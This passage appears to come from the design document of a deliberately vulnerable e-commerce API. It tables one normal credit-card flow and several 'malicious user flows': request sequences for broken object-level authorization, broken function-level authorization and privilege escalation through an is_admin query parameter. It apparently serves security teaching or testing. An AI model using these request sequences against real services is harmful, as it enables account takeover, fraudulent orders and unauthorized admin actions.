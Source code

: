 #### Flow 5: User Adds and Removes Credit Card

| Step | HTTP Method | Endpoint | Purpose/Parameters |
|------|-------------|----------|--------------------|
| 1 | POST | `/api/auth/login?username=alice&password=Password123!` | Login as user |
| 2 | POST | `/api/users/{user_id}/credit-cards?cardholder_name=Alice%20B&card_number=4222222222222222&expiry_month=11&expiry_year=2030&cvv=456&is_default=false` | Add a second credit card |
| 3 | GET | `/api/users/{user_id}/credit-cards` | List all credit cards |
| 4 | DELETE | `/api/users/{user_id}/credit-cards/{card_id}` | Remove a credit card |

### 8.2 Malicious User Flows (Vulnerability Exploitation)

#### BOLA Exploit: Accessing Another User's Data

| Step | HTTP Method | Endpoint | Purpose/Attack |
|------|-------------|----------|----------------|
| 1 | POST | `/api/auth/login?username=attacker&password=AttackerPass!` | Attacker logs in, obtains token |
| 2 | GET | `/api/users/{victim_user_id}` | Attacker accesses victim's profile |
| 3 | GET | `/api/users/{victim_user_id}/orders` | Attacker lists victim's orders |
| 4 | POST | `/api/users/{victim_user_id}/addresses?...` | Attacker creates address for victim |
| 5 | POST | `/api/users/{victim_user_id}/orders?address_id={victim_address_id}&credit_card_id={victim_card_id}&product_id_1={product_id}&quantity_1=1` | Attacker places order for victim (using victim's address/card) |

#### BFLA Exploit: Regular User Performing Admin Actions

| Step | HTTP Method | Endpoint | Purpose/Attack |
|------|-------------|----------|----------------|
| 1 | POST | `/api/auth/login?username=regular&password=RegularPass!` | Regular user logs in |
| 2 | POST | `/api/products?name=Malicious%20Product&price=1.00` | Regular user creates a product (should be admin-only) |
| 3 | DELETE | `/api/products/{product_id}` | Regular user deletes a product |
| 4 | PUT | `/api/stock/{product_id}?quantity=100` | Regular user updates product stock |
| 5 | DELETE | `/api/users/{victim_user_id}` | Regular user deletes another user |

#### Parameter Pollution Exploit: Privilege Escalation

| Step | HTTP Method | Endpoint | Purpose/Attack |
|------|-------------|----------|----------------|
| 1 | POST | `/api/auth/register?username=evil&email=evil@example.com&password=EvilPass!` | Register as a regular user |
| 2 | POST | `/api/auth/login?username=evil&password=EvilPass!` | Login as evil user |
| 3 | PUT | `/api/users/{evil_user_id}?is_admin=true` | Escalate privileges to admin via query parameter |
| 4 | POST | `/api/products?name=Backdoor&price=0.01` | Now create a product as an admin |

#### Flow 3: BOLA Exploit - Creating Address for Another User
